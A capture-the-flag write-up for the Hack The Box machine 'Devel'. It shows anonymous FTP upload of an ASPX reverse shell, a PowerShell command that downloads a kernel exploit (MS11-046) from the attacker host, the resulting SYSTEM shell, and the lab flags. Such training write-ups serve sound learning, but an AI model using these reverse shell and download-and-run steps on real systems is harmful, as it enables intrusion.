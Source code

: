 # HTB: Devel

## Engagement Overview

**Target:** Devel (HTB)
 **Box IP:** 10.10.10.5
 **Host IP:** 10.10.14.6
 **Date:** 2025-09-27

**Host Name:** DEVEL
 **OS:** Microsoft Windows 7 Enterprise (Build 7600)

------

### Objectives

- Enumerate services and identify misconfigurations.
- Compromise the FTP service.
- Gain initial foothold via uploaded ASPX reverse shell.
- Enumerate the system and escalate privileges with MS11-046.
- Capture `user.txt` and `root.txt`.

------

## Service Enumeration

### Nmap Results

```bash
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png

80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
```

### FTP Discovery

- Anonymous login allowed with **write access** to IIS root.
- Uploaded an [ASPX reverse shell](https://gist.github.com/qtc-de/19dfc9018685fce1ba2092c8e2382a79) and executed it successfully:

```bash
Listening on [any] 1337 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.5] 49169
Microsoft Windows [Version 6.1.7600]
c:\windows\system32\inetsrv>
```

------

## System Enumeration

**User Privileges**

```powershell
SeChangeNotifyPrivilege       Enabled
SeImpersonatePrivilege        Enabled
SeCreateGlobalPrivilege       Enabled
```

**System Information**

- Host: DEVEL
- OS: Windows 7 Enterprise (no patches)
- Architecture: x86 VM (VMware Virtual Platform)
- Domain: HTB
- Local user: `babis`

**Enumeration Tools**

- `winPEAS` → suggested WinPrivCheck.
- `WinPrivCheck` → suggested PrintSpoofer, but x86 binary failed.
- `Watson` (x86) → unsupported for this Windows 7 build.

At this point, leveraged known kernel exploit (MS11-046).

------

## Privilege Escalation

### MS11-046 Exploit

- Used pre-compiled binary from [abatchy17 repo](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046).
- Uploaded and executed:

```powershell
powershell (New-Object Net.WebClient).DownloadFile('http://10.10.14.6/ms11.exe','C:\tmp\ms11.exe')
C:\tmp> ms11.exe
```

**Result:**

```powershell
whoami
nt authority\system
```

**Flags:**

```powershell
c:\Users\babis\Desktop> type user.txt
04dbb55ef3ca04e4c70324f2806e2058

c:\Users\Administrator\Desktop> type root.txt
f5706205b5fc6a4276193c5c7b9ef872
```

------

## House Cleaning

- Deleted `C:\tmp\ms11.exe` and working directory.
- No persistence or artifacts left on target.

------

## Tools Utilized

- `nmap`
- `ftp`
- `winPEAS`
- `WinPrivCheck`
- `Watson`
- `MS11-046 exploit`

------

## Key Takeaways

- Anonymous FTP with upload rights is a critical misconfiguration.
- IIS root folder write access allows straightforward webshell execution.
- Windows 7 Enterprise without patches is highly vulnerable
